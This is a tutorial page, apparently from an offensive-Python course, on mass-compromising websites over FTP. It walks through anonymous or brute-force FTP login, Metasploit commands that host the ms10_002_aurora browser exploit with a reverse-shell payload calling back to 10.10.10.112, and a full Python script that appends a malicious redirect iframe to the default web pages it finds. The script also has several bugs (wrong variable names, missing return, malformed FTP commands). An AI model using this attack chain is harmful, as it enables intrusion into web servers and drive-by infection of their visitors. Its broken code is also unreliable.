

Select theme colour

Stylesheet switching is done via JavaScript and can cause a blink while page loads. This will not happen in your production code.
 The File Transfer Protocol (FTP) is a standard network protocol used for the transfer of computer files between a client and server on a computer network. FTP is built on a client-server model architecture and uses separate control and data connections between the client and the server. FTP users may authenticate themselves with a clear-text sign-in protocol, normally in the form of a username and password, but can connect anonymously if the server is configured to allow it. For secure transmission that protects the username and password, and encrypts the content, FTP is often secured with SSL/TLS (FTPS) or replaced with SSH File Transfer Protocol (SFTP).
In this module we are going to inject virus file into web server using ftp protocol.
*Python *optparse module *ftplib module
We will use the Python ftplib pxssh module to connect to the ftp Server.After a sucessful connection we will inject the malicious file.
Learn about FTPlib module: Official Documentation
Learn about optparse module: Official Documentation
The malicious file can be created by using metasploit framework.
We gonna try to login to ftp using anonymous method,If not succeded we'll try bruteforce to login.
With credentials on the FTP server, we must now test if the server also provides
web access. In order to test this, we will first list the contents of the FTP server’s
directory and search for default web pages. The function returnDefault() takes
an FTP connection as the input and returns an array of default pages it finds.
It does this by issuing the command NLST, which lists the directory contents.
The function checks each file returned by NLST against default web page file
names. It also appends any discovered default pages to an array called retList.
After completing the iteration of these files, the function returns this array.
Now that we have found web page files, we must infect them with a malicious
redirect. We will use the Metasploit framework in order to quickly create a
malicious server and page hosted at http://10.10.10.112:8080/exploit. Notice
we choose the exploit ms10_002_aurora, the very same exploit used during
Operation Aurora against Google. The page at 10.10.10.112:8080/exploit will
exploit redirected victims, which will provide a call back to our command and
control server.
attacker# msfcli exploit/windows/browser/ms10_002_aurora
LHOST=10.10.10.112 SRVHOST=10.10.10.112 URIPATH=/exploit
PAYLOAD=windows/shell/reverse_tcp LHOST=10.10.10.112 LPORT=443
[*] Please wait while we load the module tree...
<...SNIPPED...>
LHOST => 10.10.10.112
SRVHOST => 10.10.10.112
URIPATH => /exploit
PAYLOAD => windows/shell/reverse_tcp
LHOST => 10.10.10.112
LPORT => 443
[*] Exploit running as background job.
[*] Started reverse handler on 10.10.10.112:443
[*] Using URL:http://10.10.10.112:8080/exploit
[*] Server started.
msf exploit(ms10_002_aurora) >
Any vulnerable client that connects to our server at http://10.10.10.112:8080/
exploit will now fall prey to our exploit. If it succeeds, it will create a reverse
TCP shell and grant us access to the Windows command prompt on the infected client. From the command shell, we can now execute commands as
the administrator of the infected victim.
The function injectPage() takes an
FTP connection, a page name, and a redirect iframe string as the input. It then
downloads a temporary copy of that page. Next, it appends the iframe redirect
to our malicious server to that temporary file. Finally, the function uploads the
infected page back to the benign server.
import ftplib
import optparse
def anonLogin(hostname):
try:
ftp = ftplib.FTP(hostname)
ftp.login('anonymous', 'me@your.com')
print '\n[*] ' + str(hostname) + ' FTP Anonymous Logon Succeeded.'
ftp.quit()
return True
except Exception, e:
print '\n[-] ' + str(hostname) + ' FTP Anonymous Logon Failed.'
return False
def bruteLogin(hostname,passwdFile):
pF=open(passwdFile,'r')
for line in pF.readlines():
username=pF.split(':')[0]
password=pF.split(':')[1].strip('\n')
print "[+] Trying "+ username + password
try:
ftp=ftplib.FTP(hostname)
ftplib.login(username,password)
print "\n[+]" + str(hostname) + "Anonymous Logon Succeeded: " + username + password
ftplib.quit()
return (username,password)
except Exception,e:
pass
print "[-] Could not bruteforce FTP Credentials"
return (none,none)
def returnDefault(ftp):
try:
dirList=ftp.nlst()
except:
dirList=[]
print "[-] Could not list Directory contents"
print "[-] Skipping to next Target"
return
retList=[]
for filename in dirList:
fn=filename.lower()
if '.php' in fn or '.html' in fn or '.asp' in fn:
print "[+]Found Default Page: "+filename
retList.append(filename)
def injectPage(ftp,page,redirect):
f=open(page + '.tmp','w')
ftp.retrlines('RETR'+ page,f.write)
print "[+]Downloaded Page:" + page
f.write(redirect)
f.close()
print "[+]Injected Malicious Frame on:" +page
ftp.storelines('STOR'+ page,open(page+ '.tmp'))
print "[+]Uploaded Injected Page:" +page
def attack(username,password,tgthost,tgtredirect):
ftp=ftplib.FTP(tgthost)
ftp.login(username,password)
defPages=returnDefault(ftp)
for page in defPages:
injectPage(ftp,page,redirect)
def main():
parser=optparse.OptionParser('usage%prog -H
parser.add_option('-H', dest='tgtHosts', type="string", help="Specify target host")
parser.add_option('-r', dest='redirect', type='string', help="Specify a redirect page")
parser.add_option('-f', dest='passwdFile', type='string', help="Specify password file")
(options,args)=parser.parse_args()
tgtHosts=str(options.tgtHosts).split(' , ')
redirect=options.redirect
passwdFile=options.passwdFile
if tgtHosts == None or redirect == None or passwdFile == None:
print parser.usage
exit(0)
for tgthost in tgtHosts:
username=None
password=None
if anonLogin(tgthost)==True:
username="anonymous"
password="me@your.com"
print "[+]Using Anonymous Login to attack"
attack(username,password,tgthost,redirect)
elif passwdFile!=None:
(username,password)=bruteLogin(tgthost,passwdFile)
if password!= None:
print "[+]Using Credintials:" + username +'/'+ password +'to attack.'
attack(username,password,tgthost,redirect)
main()
Stylesheet switching is done via JavaScript and can cause a blink while page loads. This will not happen in your production code.